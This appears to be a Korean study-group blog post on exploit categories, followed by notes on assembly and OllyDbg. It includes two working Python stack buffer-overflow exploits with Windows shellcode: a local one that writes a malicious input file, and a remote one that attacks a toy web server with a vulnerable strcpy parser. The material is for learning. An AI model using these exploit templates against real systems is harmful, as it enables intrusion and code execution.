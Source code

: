 ```yaml
---
layout: post
title: [System Hacking by SUA] Day 3
---
```


# SUA 시스템 해킹 스터디 170811
<br>

이번 시간에는 Exploit 분류에 대해 알아보겠다.

<br>
## Exploit 분류
<br>

Exploit은 취약점을 공격하는 코드다. 크게 원격에서 공격 가능한 Remote Exploit과 로컬 상에서 공격이 가능한 Local Exploit으로 분류할 수 있다.

<br>
### 1. Local Exploit
<br>

Local Exploit은 PC 혹은 서버 내부에서 실행하는 Exploit이다. 일반적으로 권한 상승 혹은 코드 실행을 위해서 사용한다. 인자값을 직접 입력해 주어야 하는 경우나 특정 파일을 통해 입력값을 전달하게 되므로 로컬 상의 권한을 이미 가지고 있는 경우이거나, 파일 실행 등의 조건이 필요하다.

예를 들어, 파일을 입력 받아 출력해 주는 간단한 프로그램이 있다고 하자. 이 프로그램의 경우, 문자열의 길이를 검사하지 않고 복사해주기 때문에 스택 버퍼오버플로우가 발생한다. 그렇다면, 이 취약점을 공격하는 코드는 아래와 같다.

```python
import struct

print "[+] Creat text file..."

nop = "\x90" * 100

shellcode  = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
shellcode += "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
shellcode += "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
shellcode += "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
shellcode += "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
shellcode += "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x69\x21"
shellcode += "\x21\x01\x68\x6e\x6d\x69\x6e\x68\x20\x68\x79\x75\x89\xe1\xfe"
shellcode += "\x49\x0b\x31\xc0\x51\x50\xff\xd7"

print "Shellcode Length :", len(shellcode)
dummy = "A"*(504-len(nop+shellcode))
buf = struct.pack('<L',0x12fd50)
contents = nop + shellcode + dummy + buf

f = open("test.txt","w")
f.write(contents)
f.close()
```

위 공격 코드를 실행하면 프로그램의 입력값인 텍스트 파일을 만들어주며, 이 프로그램에는 공격 성공 후 실행할 쉘코드가 입력되어 있다(*쉘코드란, 공격자가 실행하길 원하는 코드다. 일반적으로 다양한 악성 행위를 수행하도록 만들어짐*). 공격 코드를 실행하고 생성된 악성 파일을 인자값으로 프로그램을 실행하면 공격자가 원하는 코드가 실행되는 것을 확인할 수 있다. 윈도우 OS의 경우, 주로 직접 인자값에 입력하는 방식의 공격보다는 악성 파일을 이용한 공격이 주를 이룬다. **사용자에게 입력값을 받는 모든 프로그램은 취약점이 존재할 수 있다!**

<br>
### 2. Remote Exploit
<br>

Remote Exploit은 Local Exploit과 반대로 원격에서 이루어지는 공격이다. 원격에서 패킷을 보내 공격하므로 특정 포트를 열고 서비스를 제공하는 서버 프로그램이 타겟이 된다. 단순히 포트가 열려있으면 원격에서 공격을 당할 수 있기 때문에 Remote Exploit 공격은 대부분 치명적이다.

예를 들어, 간단한 웹 서버 프로그램이 있다고 하자. 이 프로그램에는 아래 코드와 같이 요청 패킷을 파싱하는 과정에서 경계값 검사를 하지 않는 **strcpy** 함수를 사용하여 버퍼오버플로우 취약점이 발생한다.

```c
int parse(SOCKET sock, char *buf) {
  char url[1000] = {0,};
  char send_buf[2000] = {0,};
  char * token = strtok(buf, " ");
  char * method = token;
  strcpy(url, token+(strlen(method)+1));
  printf("URL : %s\n", url);
}
```

아래 Exploit 코드는 원격에서 패킷을 보내는 Remote Exploit 코드다.

```python
import struct
from socket import *

nop = "\x90" * 200
shellcode  = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
shellcode += "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
shellcode += "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
shellcode += "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
shellcode += "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
shellcode += "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x69\x21"
shellcode += "\x21\x01\x68\x6e\x6d\x69\x6e\x68\x20\x68\x79\x75\x89\xe1\xfe"
shellcode += "\x49\x0b\x31\xc0\x51\x50\xff\xd7";

print "Shellcode Length :", len(shellcode)
dummy = "A"*(499-len(nop+shellcode))
#buf = struct.pack('<L',0x42424242)
buf = struct.pack('<L',0x00416124)
payload = nop + shellcode + dummy + buf

print " [+] Sending Packet..."
s = socket(AF_INET,SOCK_STREAM,0)
s.connect(('127.0.0.1',80))
s.send("GET /"+payload)
print s.recv(150)
s.close()
```

위 코드를 실행하면 원격에서 해당 웹 서버 프로그램을 공격하여 원하는 코드를 실행시킬 수 있음을 확인할 수 있다.

Remote Exploit은 원격에서 직접 공격이 가능하여 주로 서버에 접근 권한을 얻기 위한 1차 공격으로 많이 사용된다. Remote Exploit을 통해 서버의 일반 사용자 권한을 획득한 뒤, Local Exploit을 통해 추가 권한 상승을 시도하는 것이 일반적인 침투 절차이다.

<br>
## [질문 내용 정리]
<br>

- **CALL(Call a Procedure), RET 와 함수 에필로그 차이점?**

어셈블리어 중 CALL 명령어는 함수 호출 시 사용한다. JMP 명령어와 비슷하게 프로그램 실행 흐름을 변경하지만 다른 점은 되돌아오는 리턴 주소(*CALL 다음 명령*)를 스택에 저장한다. 함수 호출후 원래 위치로 실행 흐름을 되돌리고 나서 다시 프로그램이 실행될 수 있다. RET 명령어는 CALL 명령어로 호출한 함수의 주소를 EIP에 저장하고, CALL 명령어로 감소되었던(*ex: PUSH 명령어로 줄어든 ESP 4바이트*) 4바이트를 다시 4바이트 증가시킨다. 함수 에필로그는 CALL 명령어로 호출한 함수를 실행하고 나서, LEAVE(*POP EBP 해서 Base Pointer를 복구하는 과정*) 와 RET 명령어(*PUSH 명령어로 줄어든 4바이트를 다시 4바이트 확장시키는 과정*) 수행을 마치고 처음 호출한 지점으로 돌아가기 위해 스택을 복원하는 과정이다. 참고로, 방식은 함수 호출 규약에 따라 조금씩 다르다.

- **Back To User Mode?**

Back To User Mode는 OllyDbg로 특정 프로그램을 디버깅할 때, 한 이벤트가 발생하기 전에 이 모드를 설정한 뒤, Call 명령어가 수행되고 나서 바로 다음 위치를 잡을 수 있는 기능을 말한다.

> 1. 분석할 프로그램을 OllyDbg로 실행한다.
> 2. F9를 눌러 프로그램 실행시켜 특정 이벤트를 발생시킨다.
> 3. F12를 눌러 프로그램을 일시정지 상태로 둔다.
> 4. Alt+F9를 누르면 Back To User Mode가 설정된다.
> 5. 프로그램을 확인해보면 잠시 멈쳤다가 정상적으로 뜬다. 이 때 버튼 클릭이나 다른 이벤트를 수행한다.
> 6. OllyDbg가 자동으로 해당 이벤트 수행 부분에 커서가 이동된다.

- **인라인 코드 패치(Inline Code Patch)**

[실습 문제](http://blog.eairship.kr/303) 중간에 EBX가 4010F5, EDX에 0으로 값을 덮어씌우고 4010F5~401248에서 순차적으로 4바이트 단위로 값을 읽어온 뒤 ADD 연산을 왜 하는 지..? 그리고 그 다음에 OEP 코드가 나오고, API 함수 호출하는 부분에서 매개변수로 받을 때, MSDN 에서 매개변수가 몇 개인지, 각각 어떤 변수인지 확인했고.. 함수 호출 시 cdecl 규약(*C/C++ 언어의 기본 함수 호출 규약*)에 따라 역순으로 매개변수를 PUSH 하고 함수 호출한 뒤 이어지는 다음 라인에 스택을 정리한다. 40122C 주소의 4010F5 값이 DlgProc 즉, IpDialogFunc의 값이 된다.(*IpDialogFunc 는 다이얼로그 박스 프로시저를 가리키는 포인터 -> 주소*) 아직 더 공부해야 함..

- **main(), tmain(), wmain() 차이?**

main() 이라는 함수는 모든 C/C++ 프로그램의 실행이 시작되는 지점. 유니코드 프로그래밍 모델을 따르는 코드를 작성할 경우 main()의 와이드(Wide) 문자 버전인 wmain()을 사용할 수 있다. tmain()은 Visual Studio에서 Win32 콘솔 응용 프로그램 프로젝트를 생성하면 생기는 함수며 TCHAR.h에 정의되어 있다.
> #define tmain wmain

즉, tmain()은 wmain()과 같은 것이다. 그리고 tmain()은 사용했을 때 유니코드가 정의되어 있지 않으면 main()으로 인식하고, 유니코드가 정의된 경우에는 wmain()으로 인식한다.
